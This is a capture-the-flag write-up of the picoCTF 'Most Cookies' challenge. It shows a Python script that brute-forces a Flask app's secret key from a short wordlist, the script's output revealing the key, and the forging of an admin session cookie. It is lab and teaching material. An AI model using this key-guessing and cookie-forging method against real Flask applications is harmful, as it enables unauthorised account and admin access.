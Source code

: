 # Most Cookies

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](http://ctf.infury.org:8000/files/09733221d1d0f2351aedaa8f64902dd8/server.py)

http://mercury.picoctf.net:44693/

##### Hint

> How secure is a flask cookie?

## WP

Go into the website and find that there is a search bar allowing us to input name of Cookies, just the same as [Cookies](Cookies.md).

![image-20210725180453152](Most-Cookies.assets/image-20210725180453152.png)

However, this time the website uses Flask session as the way to verify the identity of the user.

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

# ...

@app.route("/display", methods=["GET"])
def flag():
    if session.get("very_auth"):
        check = session["very_auth"]
        if check == "admin":
            resp = make_response(render_template("flag.html", value=flag_value, title=title))
            return resp
        flash("That is a cookie! Not very special though...", "success")
        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
    else:
        resp = make_response(redirect("/"))
        session["very_auth"] = "blank"
        return resp
```

Open the source code of this website, I found two critical parts: the website will randomly choose one string from `cookie_names` as `app.secret_key`, whose usage is unknow yet. Also, once the value of `very_auth` in the session is detected to be `admin`, the website will show the flag.

So the task is clear now: change the value of our session and make the value of `very_auth` be `admin`.

I inspected the my Cookie information and found:

```xml
Cookie: session=eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YP0rUQ.42tz9__ZuZYKAKS18w_TSMV0ovs
```

Then I Googled the principle of Flask session and found it totally different from the traditional principle of session. 

Traditional web servers will create a file containing the Cookie information of the user on the server side and name the file with a session ID, then the client side will tell its Cookie information to server by sending this session ID. However, in Flask there is no file creation. All the Cookie information is contained in the session string with a simple BASE64 encoding, and Flask will generate a fingerprint for each session ID to prevent it from being modified by user, and this is where the `app.secret_key` was used.

So now we need to brute force the session string to find the string in `cookie_names` that is used as `app.secret_key`.

I used this [noraj/flask-session-cookie-manager: Flask Session Cookie Decoder/Encoder (github.com)](https://github.com/noraj/flask-session-cookie-manager) to help decoding the session string. The brute force script is shown below:

```python
import os

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

for key in cookie_names:
    command = f'python D:/Software/flask-session-cookie-manager/flask_session_cookie_manager3.py decode -s "{key}" -c eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YP0rUQ.42tz9__ZuZYKAKS18w_TSMV0ovs'
    print(f"Trying [{key}]: ", end="")
    os.system(command)
```

Output:

```xml
Trying [snickerdoodle]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [chocolate chip]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [oatmeal raisin]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [gingersnap]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [shortbread]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [peanut butter]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [whoopie pie]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [sugar]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [molasses]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [kiss]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [biscotti]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [butter]: {'very_auth': 'blank'}
Trying [spritz]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [snowball]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [drop]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [thumbprint]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [pinwheel]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [wafer]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [macaroon]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [fortune]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [crinkle]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [icebox]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [gingerbread]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [tassie]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [lebkuchen]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [macaron]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [black and white]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
Trying [white chocolate macadamia]: [Decoding error] Signature b'42tz9__ZuZYKAKS18w_TSMV0ovs' does not match
```

So we know that `app.secret_key` is `butter`.

Then I forged the session string using butter, set the value of `very_auth` with `admin`.

![image-20210725183320639](Most-Cookies.assets/image-20210725183320639.png)

Access `/display` page with this session and finally I got the flag.

![image-20210725183442615](Most-Cookies.assets/image-20210725183442615.png)

